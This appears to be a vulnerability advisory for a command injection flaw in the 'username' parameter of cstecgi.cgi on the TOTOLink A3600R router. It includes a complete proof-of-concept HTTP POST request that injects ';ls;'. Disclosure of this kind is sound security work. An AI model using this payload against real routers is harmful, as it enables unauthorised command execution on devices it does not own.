 # TOTOLink A3600R V4.1.2cu.5182_B20201102 Has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ： http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36

### Product Information

TOTOLink A3600R V4.1.2cu.5182_B20201102 router, the latest version of simulation overview：

![Figure 1 Update date of the latest version of the firmware](img/image-20220213010829260.png)

## Vulnerability details

![image-20220718075801786](img/image-20220718075801786.png)

TOTOLINK A3600R was found to contain a command insertion vulnerability in cstecgi.This vulnerability allows an attacker to execute arbitrary commands through the "username" parameter.

![Figure 2 Local of the vulnerability](img/image-20220718075116046.png)

We can see that the operating system will get "username" without filtering and inserting it into the strings "openvpn cert build_user" and "gz". Therefore, if we can control "username", it can be a command injection.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi?exportOvpn=&type=user&username=;ls;&filetype=gz HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.1/login.html
Content-Length: 0
Origin: http://192.168.0.1
DNT: 1
Connection: close
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Pragma: no-cache
Cache-Control: no-cache
```

![image-20220718070705547](img/image-20220718070705547.png)

![image-20220718070721076](img/image-20220718070721076.png)

 The above figure shows the POC attack effect 

